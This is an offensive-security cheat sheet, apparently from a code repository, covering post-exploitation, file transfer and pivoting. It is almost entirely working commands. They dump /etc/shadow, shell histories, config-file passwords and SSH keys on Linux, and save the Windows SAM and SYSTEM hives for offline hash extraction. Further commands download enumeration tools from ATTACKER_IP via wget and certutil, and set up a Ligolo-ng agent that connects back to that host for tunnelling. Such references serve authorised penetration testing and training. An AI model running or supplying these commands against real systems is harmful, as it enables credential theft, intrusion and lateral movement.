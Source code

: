 
## Post-Exploitation

### Linux Loot Everything Chain
```bash
# Dump creds → histories → configs → SSH keys
cat /etc/passwd /etc/shadow 2>/dev/null | tee creds.txt && \
cat ~/.bash_history /root/.bash_history 2>/dev/null | tee histories.txt && \
find / -name "*config*" -o -name "*.conf" 2>/dev/null | xargs grep -i password 2>/dev/null | tee configs.txt && \
find / -name "id_rsa" -o -name "*.pem" 2>/dev/null | tee ssh_keys.txt
```

### Windows Loot Everything Chain
```powershell
# Save SAM → SYSTEM → Dump with secretsdump
reg save HKLM\SAM sam.save && reg save HKLM\SYSTEM system.save && exit

# Then on Kali:
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

---

## File Transfer

### Serve Files from Kali + Download on Target
```bash
# On Kali (one terminal):
python3 -m http.server 80

# On Linux target:
wget http://ATTACKER_IP/linpeas.sh && chmod +x linpeas.sh

# On Windows target:
certutil -urlcache -f http://ATTACKER_IP/winPEAS.exe winPEAS.exe
```

---

## Pivoting

### Ligolo-ng Quick Setup
```bash
# On Kali (proxy):
./ligolo-ng_proxy -selfcert &

# On compromised host (agent):
./ligolo-ng_agent -connect ATTACKER_IP:11601 -ignore-cert &

# In ligolo proxy:
session
start
# Now you can access internal network from Kali
```

---